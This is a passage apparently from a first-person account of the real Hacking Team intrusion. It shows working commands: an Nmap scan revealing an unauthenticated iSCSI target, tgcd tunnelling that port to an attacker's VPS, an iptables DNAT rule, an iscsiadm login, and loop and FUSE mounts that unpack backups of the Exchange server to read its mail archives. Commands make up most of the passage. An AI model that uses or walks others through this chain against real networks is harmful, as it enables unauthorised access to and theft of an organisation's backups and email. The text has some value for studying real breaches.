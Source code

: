 	Nmap scan report for synology-backup.hackingteam.local (192.168.200.72)
	...
	3260/tcp open  iscsi?
	| iscsi-info:
	|   Target: iqn.2000-01.com.synology:synology-backup.name
	|     Address: 10.0.1.72:3260,0
	|     Address: 192.168.200.72:3260,0
	|_    Authentication: No authentication required

iSCSI requires a kernel module, and it would have been difficult to
compile it for the embedded system. I forwarded the port so that I
could mount it from a VPS:

VPS: tgcd -L -p 3260 -q 42838
Sistema embebida: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1

iSCSI now finds the name iqn.2000-01.com.synology, but has some
problems mounting it since it now believes that its address is both
192.168.200.72 and 127.0.0.1.

The to solve this is:

iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1

and then:

iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login

...and the archive system appears! We mount it:

vmfs-fuse -o ro /dev/sdb1 /mnt/tmp

and find secure backups of various virtual machines. The Exchange
server seems like the most interesting. It's too big to download, but
we can mount it remotely and search for interesting archives:

	$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
	$ fdisk -l /dev/loop0
	/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT
	
	entonces el offset es 2048 * 512 = 1048576
	$ losetup -o 1048576 /dev/loop1 /dev/loop0
	$ mount -o ro /dev/loop1 /mnt/exchange/

and now in /mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14
172311 we find the hard drive of the virtual machine, and mount it:

	vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
	mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1

...and, finally, we have gotten to the centre of the matryoshka doll
and we can see all of the archives of the old Exchange server on
/mnt/part1.
